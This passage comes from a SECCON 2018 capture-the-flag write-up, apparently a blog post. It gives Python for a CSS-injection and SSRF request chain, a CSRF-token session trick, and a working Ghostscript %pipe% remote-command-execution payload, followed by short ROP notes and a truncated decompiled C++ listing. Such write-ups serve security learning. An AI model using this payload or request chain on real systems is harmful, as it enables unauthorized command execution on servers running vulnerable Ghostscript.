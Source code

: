 ```python
cssinjection = urllib.quote(base64.b64encode(css), safe='')

url = "http://ghostkingdom.pwn.seccon.jp/?user="+username+"&pass="+urllib.quote(password,safe='')+"&action=login"
pl = "http://ghostkingdom.pwn.seccon.jp/?url=http%3A%2F%2F2130706433%2F%3Fuser%3D"+username+"%26pass%3D"+urllib.quote(urllib.quote(password,safe=''),safe='')+"%26action%3Dmsgadm2%26css%3D"+cssinjection+"%26msg%3Daaaaaaaa&action=sshot2"
print pl

req = requests.Session()

req.get(url)
r = req.get(pl,timeout=10)

print r.status_code
```

Also, there is a screenshot option, we can use pure number to bypass the check of screenshot:
![pic3](/assets/SECCON-CTF-2018/ghost3.png)

I though we need to use SSRF to upload image originally, but actually replace the token allow us to do that too.

After leaking all the CSRF token, we can simply change the value of *CGISESSID* to CSRF token. 

According to the challenge name, we can easily infer that it's related to ghostscript vulnerability.

Here, we can use the script to RCE:
```
%!PS
userdict /setpagedevice undef
save
legal
{ null restore } stopped { pop } if
{ legal } stopped { pop } if
restore
mark /OutputFile (%pipe%SOME_COMMANDS_TO_INJECT) currentdevice putdeviceprops
```

Then, we can list dir and cat flag.

# Pwn

## Classic Pwn

Simple ROP. Leak **Libc** base address via **.got** then execute **one_gadget** or **system**

## Profile

A C++ pwn, overview:
```cpp
int __cdecl main(int argc, const char **argv, const char **envp)
{
  __int64 output_result; // rax
  __int64 v4; // rax
  __int64 v5; // rax
  __int64 v6; // rax
  __int64 v7; // rax
  __int64 v8; // rax
  __int64 v9; // rax
  __int64 v10; // rax
  __int64 v11; // rax
  int _opt; // [rsp+Ch] [rbp-C4h]
```